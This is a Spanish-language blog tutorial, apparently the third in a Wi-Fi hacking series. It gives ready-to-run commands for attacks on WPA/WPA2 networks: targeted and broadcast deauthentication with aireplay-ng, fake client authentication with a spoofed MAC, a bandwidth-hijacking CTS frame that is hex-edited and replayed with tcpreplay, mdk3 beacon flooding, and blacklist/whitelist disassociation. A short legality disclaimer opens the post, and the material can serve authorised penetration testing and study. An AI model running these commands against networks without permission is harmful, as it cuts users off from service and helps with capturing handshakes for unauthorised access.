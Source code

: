```yaml
---
layout: single
title: Wifi Hacking 3, Ataques
excerpt: "En este articulo veremos unos cuantos ataques para las redes WPA y WPA 2, los cuales podremos lanzar con distintas finalidades."
date: 2022-07-05
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/Wifi-Hacking/wifi.webp
categories:
  - Wifi-Hacking
tags:  
  - Wifi-Hacking
---
```


Vale, una vez visto lo anterior ya nos podemos poner manos a la obra con una parte bastante atractiva de esto, los ataques, aquí veremos ataques de varios tipos y como los podemos utilizar con distintos fines, pero antes de nada `YO NO ME HAGO RESPONSABLE DEL MAL USO QUE SE LE PUEDAN DAR A ESTOS CONOCIMIENTOS`, ya que como todo esto se puede usar para el bien, pero también se puede utilizar para el mal y creo que no hace falta aclarar que `Cualquier ataque de estos en una red en la que no tengamos permiso de efectuarlos es completamente ILEGAL`. Una vez aclarado esto ya nos podemos poner manos a la obra. uwu

![](/assets/images/Wifi-Hacking/wifi-hacking.jpg)

`(antes de nada hay que aclarar que todos estos ataques, capturar paquetes y todo eso... se puede hacer sin estar conectados a la red que queremos atacar, es decir que no necesitamos saber la contraseña, solo necesitaremos saberla para snifar la red, ya que la información viaja encriptada y sin la contraseña no podremos verla en texto claro)`


## ATAQUE DE DEAUTENTICACIÓN DIRIGIDO

Con este ataque básicamente `vamos a desconectar a un usuario` de la red que queramos. Si vemos que `los frames están aumentando, significa que el usuario está activo` y por lo tanto, se va a `reconectar` y ahí podremos capturar el `handshake`. Claro, también podemos querer que el usuario `no se pueda conectar` entonces podemos desconectarlo continuamente.

```
#Deautenticar / Desconectar a un usuario una vez
> aireplay -0 {paquetes que quieres emitirle (por ejemplo 10)} -e {nombre de la red} -c {MAC del cliente} {tarjeta de red en modo monitor}

#Otra forma de hacerlo
> aireplay --deauth 2000 -a {bssid de la red} -c {MAC víctima} {tarjeta de red} (esta es 	otra opción de hacerlo)


# IMPORTANTE: si queremos que ese cliente no se pueda conectar, en el número de paquetes ponemos 0 y se estarán mandando paquetes de deautenticación uno tras otro hasta que tú hagas Control+C o cierres la consola.
```

Ejemplo:

![](/assets/images/Wifi-Hacking/Deauth-dirigido.PNG)


## ATAQUE DE DEAUTENTICACIÓN GLOBAL

Esto es lo mismo que el anterior, pero para desconectar a todos los clientes, de esta forma `es más probable conseguir uno o varios handshakes`. O también se puede utilizar para otros fines.

Para esto reemplazaremos la MAC del cliente víctima por la `broadcast MAC: FF:FF:FF:FF:FF:FF` y asi seleccionaremos `todos los clientes` para desconectarlos. Aunque aireplay-ng tiene una facilidad con la cual si no ponemos ninguna MAC, por defecto seleccionará todos los usuarios.

```
#Forma 1
> aireplay-ng -0 10 -e {nombre de la red} -c FF:FF:FF:FF:FF:FF {nombre de la tarjeta de red}

#Forma 2 (la que facilita aireplay)
> aireplay-ng -0 10 -e {nombre de la red} {tarjeta de red}

# IMPORTANTE: aquí también podemos hacer que no se puedan reconectar
```


## ATAQUE DE FALSA AUTENTICACIÓN

Teoría: `no sirve para capturar handshakes`, ya que los `falsos clientes` no tienen la 	contraseña, pero `sirve para otro tipo de ataques que se verán más adelante`. Lo que	haces es engañar al router para que crea que se ha conectado un nuevo cliente.

Primero con `macchanger -l` buscamos una mac de un dispositivo que pueda estar en esa red, por ejemplo un telefono huawei.

```
> aireplay-ng -1 0 -e {nombre de la red} -a {BSSID de la red} -h {Mac del dispositivo que hemos buscado}:{3 pares de caracteres para terminar la MAC, inventados}	{nombre de la tarjeta de red}
```
Y ahora si observamos la red veremos que se ha conectado un usuario que mientras no le hagamos ningún ataque no cambiará el número de frames.


## CTF FRAME ATTACK: secuestro del ancho de banda

Teoría: si dos clientes mandan paquetes parecidos al mismo tiempo pueden colisionar, así que en una red cada cliente tiene que pedir turno para hablar (RTS: request to send), por lo que si tú pides turno, pero para muchísimos paquetes seguidos puedes hacer que la mayoría de ancho de banda o todo este para ti, ya que tú tienes el turno de enviarle paquetes al router durante un tiempo que especifiques al efectuar el ataque. La duración se manda en microsegundos, desde el 0 hasta el 32767. Entonces, la idea como atacante es poner un valor bastante alto (30000). 	Aunque hay que poner primer número el más bajo y último el más alto (en hexadecimal). La idea es que cuando emitamos el ataque la red va a congestionar y la mayoría de dispositivos se van a desconectar.

Primero exportamos todas las evidencias, pero no desconectamos a nadie:
```
> airodump-ng -c 1 -w Captura --bssid {BSSID de la red} {tarjeta de red}
```

Ahora habriremos la captura con wireshark:
```
> wireshark Captura-01.cap (o la captura que sea)
```

Vale, ahora toca una parte que no se muy bien como explicar, asi que me apoyare en imagenes.

En wireshark: aplica filtro; wlan.fc.type_subtype==28 

![](/assets/images/Wifi-Hacking/ctf-attack-1.PNG)

Luego clica en un paquete que quieras o te llame la atención y "Export Specified Packets" 

![](/assets/images/Wifi-Hacking/ctf-attack-2.PNG)

Y guárdalo en el	formato "Wreshark/tcdump/... - cap", `pero tienes que seleccionar la opción de "solo paquetes seleccionados"`.

![](/assets/images/Wifi-Hacking/ctf-attack-3.PNG)

Entonces una vez tenemos el .pcap lo vamos a habrar con `ghex`:

```
# En caso de que no lo tengamos instalado:
> apt install ghex -y 

# para abrir el archivo:
> ghex {nombre del archivode wireshark con el.pcap} > /dev/null 2>&1 & 
```
En el archivo saldrán 3 líneas en hexadecimal, pero solo nos interesa la última. Los últimos 4	pares son el `FCS`, los siguientes 6 pares son la `MAC` del objetivo. Los siguientes 2	pares son el `tiempo`.

![](/assets/images/Wifi-Hacking/ctf-attack-4.PNG)

Ahora pasaremos el tiempo a hexadecimal, en este caso 30000 ms --> 75 30 

PERO HAY QUE TENER CUIDADO porque a ese número le tenemos que dar la vuelta --> 30 75

Y lo pondremos donde el tiempo:

![](/assets/images/Wifi-Hacking/ctf-attack-5.PNG)

Una vez hecho esto ya podemos guardar y cerrar el archivo, pero antes de continuar, vamos a comprobar que no de errores:

```
> wireshark {archivo.pcap} > /dev/null 2>&1 &
```

LAZAR EL ATAQUE:

Una vez ya hemos hecho todo lo anterior, ya podremos desplegar el ataque:

```
tcpreplay --intf1={tarjeta de red} --topspeed --loop=2000 {archivo.pcap} 2>/dev/null
```

Y asi capturaremos el ancho de banda, es decir lo tendremos para nosotros, durante 30 segundos.
Claro, aqui desconectara a los otros usuarios, asi que es si lo que queremos es capturar los handshakes, tendremos que estar capturando paquetes.


## BEACON FLOOD ATTACK

Teoría: consiste en inundar un canal de paquetes beacon que son unos paquetes	emitidos por el punto de acceso para que otros canales puedan identificarlo y sean 	capaces de conectarse	al punto de acceso. Estos paquetes `llevan información relevante del AP` como en que canal esta, el BSSID...

La idea es `emitir un montó de paquetes beacon`, pero `con información falsa`, asi `dañamos el espectro de onda de las redes de un canal`. Al anunciar tantas redes en el mismo canal, el canal se peta y los dispositivos se desconectan.

Hay dos formas de hacerlo, poniendo a las redes los nombres que queramos o que sean aleatorios.

Para la primera opción necesitaremos hacer o tener un diccionario con nombres de redes o con los nombres/palabras que queramos:

```
> mdk3 {tarjeta de red} b -f redes.txt -a -s 1000 -c {canal a atacar}
```

Y de la segunda forma, es decir que el nombre de las redes sea random:

```
> mdk3 {tarjeta de red} b -c {canal}
```

Mientras estemos haciendo el ataque, si miramos las redes disponibles, veremos un montón de redes con nombres random:

![](/assets/images/Wifi-Hacking/ctf-attack-6.png)


## DISASSOCIATION AMOK MODE

Es lo mismo que un desauth, pero podemos especificar a quienes no echar de una red o a quienes echar. Modos de ataque: `Whitelist; a estos no los echa`, `Blacklist; echa solo a estos`.

Para hacerlo con una Blacklist:

```
> nano Blacklist 
```

Y ahí añadiremos la `MAC` de los usuarios que queramos desconectar.

En caso de que lo queramos hacer con Whitelist:

```
> nano Whitelist
```

Una vez tengamos listo esto ya podremos lanzar el ataque:

```
> mdk3 {tarjeta de red} d -b blacklist -c {canal}
```

Y ahi añadiremos la `MAC` de los usuarios que no queramos desconectar.

Una vez tengamos listo esto ya podremos lanzar el ataque:

```
> mdk3 {tarjeta de red} d -w whitelist -c {canal}
```

